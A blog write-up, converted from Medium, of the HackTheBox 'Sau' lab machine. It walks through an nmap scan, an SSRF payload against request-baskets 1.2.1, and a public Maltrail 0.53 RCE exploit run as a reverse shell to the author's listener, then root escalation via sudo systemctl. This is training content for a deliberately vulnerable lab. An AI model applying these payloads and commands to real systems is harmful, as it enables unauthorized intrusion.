 > medium-to-markdown@0.0.3 convert
> node index.js https://medium.com/@ahmedgomaa_45441/hackthebox-write-up-sau-machine-438bc39be33f

HackTheBox write up: “Sau” Machine
==================================

![](https://miro.medium.com/v2/resize:fill:88:88/0*g5iT_mFvpwS_KFyc)

(https://medium.com/@ahmedgomaa_45441?source=post_page-----438bc39be33f--------------------------------)

[zerosandones](https://medium.com/@ahmedgomaa_45441?source=post_page-----438bc39be33f--------------------------------)

·

[Follow](https://medium.com/m/signin?actionUrl=https%3A%2F%2Fmedium.com%2F_%2Fsubscribe%2Fuser%2Fa3f1b2b68ccf&operation=register&redirect=https%3A%2F%2Fmedium.com%2F%40ahmedgomaa_45441%2Fhackthebox-write-up-sau-machine-438bc39be33f&user=zerosandones&userId=a3f1b2b68ccf&source=post_page-a3f1b2b68ccf----438bc39be33f---------------------post_header-----------)

5 min read·2 days ago

\--

Listen

Share

Welcome to my first write up for Hackthebox machines!

i thought it would be a good way to help me understand the topics little bit deeper, as i am trying to explain them to others, as well as maybe help others, and share my thought process, breaking into the machine.

![pic](https://miro.medium.com/v2/resize:fit:550/format:webp/1*OSckDAMfASUW56DpVUAr8w.png  " Sau Machine ( Easy )")


Sau machine is your typical Easy linux machine, pretty straight forward in most parts, only one trick in obtaining user flag, and the privilege escalation is a straightforward one ( i spent 40 minutes on it, i might be a little bit stupid ngl ).

Okay, we start as we always do, with basic Nmap scan to the target, and see what do we have here,

![pic](https://miro.medium.com/v2/resize:fit:640/format:webp/1*zXq9MMkP0_eMZfxkTcHn2Q.png)

nmap -sV -sC 10.10.11.224 -v



We are using -sV and -sC here for probing the open ports and trying to get info about the version running by running it against default nmap scripts, the -v for verbose results showing, so we get an idea what is going in, while the scan is undergoing.

nmap scan results

![pic](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*12PAu2RijS_6-IdBXiqXLA.png)


We can already see here couple of intresting information, the most eye-catching the open port 55555, which we can see from the results runs some sort of a webpage, lets try to visit it and see whats going on!



![Web interface](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*--XGicxW2ksrNoC19GN4nA.png)


We are greeted with a web interface, that seems to make some sort of baskets, lets try all the functionalities to try to poke around and get a better idea of what does this application does.

![](https://miro.medium.com/v2/resize:fit:786/format:webp/1*VbgzdLUJz2aexI4AZF1PEg.png)


Created a bucket, and recieved respones

We can see here we created a bucket name “lol”, and it gives us an api url “[http://10.10.11.224:55555/lol](http://10.10.11.224:55555/lol)”, where if we send web requests to it, we can log the requests and the respone in the web interface, a simple get request with curl would be with command:

![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*_RNChTUNc7Ls-War1lTmcg.png)


```
curl "http:10.10.11.224:55555/lol" 
```

Now if we take a look at the other fucntionalites provided, we can see in the settings, and option thats called: “Forward URL”

![](https://miro.medium.com/v2/resize:fit:786/format:webp/1*lFzQY3Mc_EfadmPL7IqjqA.png)


Forward URL? like can i send a request and the server forwards it? to anywhere? can it hit home? 127.0.0.1 kind of home? okay huge potential!

looking around in the other website pages and functionalities, i can help but see a footer that mentions the library used and its version, “request-baskets, version 1.2.1”

![](https://miro.medium.com/v2/resize:fit:612/format:webp/1*vSB1Hv5E65XO6DtPfARVEA.png)


okay, thanks for the doing th hardwork, lets see if we can find and public vulnerabilites regarding the version of the software

![](https://miro.medium.com/v2/resize:fit:786/format:webp/1*Z2BRv6Dx2-fWj-ub1x23Ag.png)

yeah, i think we pretty much found what are we searching for! ssrf vulnerable library, hehe

using assist from the detailed thread about the SSRF : [https://notes.sjtu.edu.cn/s/MUUhEymt7](https://notes.sjtu.edu.cn/s/MUUhEymt7#)

we see that the api /api/baskets/{name} is vulnerable,

and using the crafted payload to send a post request, that redirects to home(127.0.0.1) and sending it using postman

![](https://miro.medium.com/v2/resize:fit:786/format:webp/1*zFCktzlRu2wSY_hJBf507w.png)

```
{  
  "forward\_url": "http://127.0.0.1:80/test",  
  "proxy\_response": false,  
  "insecure\_tls": false,  
  "expand\_path": true,  
  "capacity": 250  
}
```

we can see, we have accessed internal page, in the footer of this page, we can notice the library and version, “Maltrail V0.53”.

Again, we lookup to see if there are any public CVEs related to it

![](https://miro.medium.com/v2/resize:fit:786/format:webp/1*DsFLJ2vLWOuyX8vFkPYoCw.png)


we can see there is an RCE exploit available, with POC, lets download this POC from github and see if we can run it!

now if we look at the exploit documentation, we can see the arguments it takes to run it

```
python3 exploit.py \[listening\_IP\] \[listening\_PORT\] \[target\_URL\]
```

in this case, we have

```
python3 exploit.py 10.10.16.7 4444 http://10.10.11.224:55555/lol
```

But before we run it, we need to have a listener running to catch the connection,( Since its a reverse shell, not bind )

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*UlDOL2EKC_lYNCeIOIMN6g.png)

![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*tJiwKGcndwkcjWVQpu834Q.png)


And after running the exploit, we can see, we have got our reverse shell successfully!

![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*mA3JeHlEP_YuDPnRKvO7yQ.png)


we can then get our flag which is in the home/puma/flag.txt directory.

— — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — —

Now, we have the user flag, but in order to obtian the root flag, we need to escalate our privilges into root, there are multiple ways we can try to escalate our privilegs through, either with LinEnum or linPeas,

but like to first check manually if we can abuse any GTFObins that can give us root permissions, since its fast and easy step,

we can first start checking by running “sudo -l” to see what can run with sudo without the root password

![](https://miro.medium.com/v2/resize:fit:786/format:webp/1*jz1XkSxq20DL371fDqwr3Q.png)


we can see we can run systemctl with root without the root password, but can we maybe abuse it to give it root permissions? lets check if it is in the GTFObins…

![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*YkG-ou08zpsVQwFnbE0-sA.png)


yessir! that means we can use it to escalate our priviliges, we can scroll down to see how exactly,

![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*Ctis-Jvt78tFai-8bOzHTw.png)


Lets try ( C ) and see if it works,

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*woXC-9knl1Kl7Wwu2F45EQ.png)


yessir!

we can find root flag under /flag.txt!

i hope it was helpful!

see you next time!

![](https://miro.medium.com/v2/resize:fit:640/0*gCkCaZMd6bc7fUA3.gif)


